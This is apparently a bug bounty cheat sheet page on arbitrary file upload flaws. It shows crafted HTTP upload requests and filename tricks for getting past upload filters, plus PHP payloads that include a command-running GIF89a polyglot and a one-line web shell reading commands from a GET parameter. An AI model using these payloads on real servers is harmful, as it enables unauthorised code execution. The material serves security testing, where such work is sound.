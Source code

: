 ## Introduction

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Arbitrary%20File%20Upload.md#introduction)

An arbitrary file upload vulnerability is a type of security flaw that allows an attacker to upload malicious files onto a server.

## Where to find

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Arbitrary%20File%20Upload.md#where-to-find)

In upload file feature, for example upload photo profile feature

## How to exploit

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Arbitrary%20File%20Upload.md#how-to-exploit)

1. Change the `Content-Type` value

```
POST /images/upload/ HTTP/1.1
Host: target.com
...

---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.php"
Content-Type: application/x-php
```

Change the Content-Type

```
POST /images/upload/ HTTP/1.1
Host: target.com
...

---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.php"
Content-Type: image/jpeg
```

2. Try to change the extension when send the request, for example in here you cant upload file with ext php but you can upload jpg file

```
POST /images/upload/ HTTP/1.1
Host: target.com
...

---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.php.jpg"
Content-Type: application/x-php
```

Change the request to this

```
POST /images/upload/ HTTP/1.1
Host: target.com
...

---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.php"
Content-Type: application/x-php
```

3. Upload the payload, but start with GIF89a; and

```
POST /images/upload/ HTTP/1.1
Host: target.com
...

---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.php"
Content-Type: image/gif

GIF89a; <?php system("id") ?>
```

And dont forget to change the content-type to image/gif

4. Bypass content length validation, it can be bypassed using small payload

```
(<?=`$_GET[x]`?>)
```

5. Using null byte in filename

```
file.php%00.gif
```

6. Using double extensions for the uploaded file

```
file.jpg.php
```

7. Uploading an unpopular php extensions (php4,php5,php6,phtml)

```
file.php5
```

8. Try to randomly capitalizes the file extension

```
file.pHP5
```

9. Mix the tips!
